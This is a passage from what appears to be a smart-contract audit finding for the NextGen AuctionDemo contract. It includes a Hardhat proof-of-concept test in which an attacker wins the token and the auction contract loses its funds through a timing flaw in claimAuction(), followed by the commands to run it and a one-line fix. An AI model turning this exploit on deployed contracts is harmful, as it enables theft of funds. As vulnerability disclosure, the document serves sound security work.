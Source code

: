 ```js
            // the auction contract will loose all the funds (attacker receives his bid and admins receive the other ones)
            console.log("Auction ETH after = ", parseInt(auctionBalanceAfter) / 1e18);
            console.log("New token owner: ", await contracts.hhCore.ownerOf(tokenId));
            console.log("Attacker address: ", signers.attackerEOA.address);
            expect(await contracts.hhCore.ownerOf(tokenId)).to.equal(signers.attackerEOA.address); // check if attacker now owns the token
            expect(attackerBalanceAfter).to.be.greaterThan(attackerBalanceBefore - BigInt(0.001 * 1e18)); // check if attacker balance hasn't changed minus gas fees
        });
    })
});
```

4. run `cd hardhat`
5. run `npx hardhat test --grep "Bid_Attack"`
6. See Attack details logged in the terminal

## Tools Used
Manual Review

## Recommended Mitigation Steps
Replace `block.timestamp >= minter.getAuctionEndTime(_tokenid)` in `claimAuction()` with ``block.timestamp > minter.getAuctionEndTime(_tokenid)`.
[AuctionDemo.sol#L105](https://github.com/code-423n4/2023-10-nextgen/blob/08a56bacd286ee52433670f3bb73a0e4a4525dd4/smart-contracts/AuctionDemo.sol#L105)



## Assessed type

Timing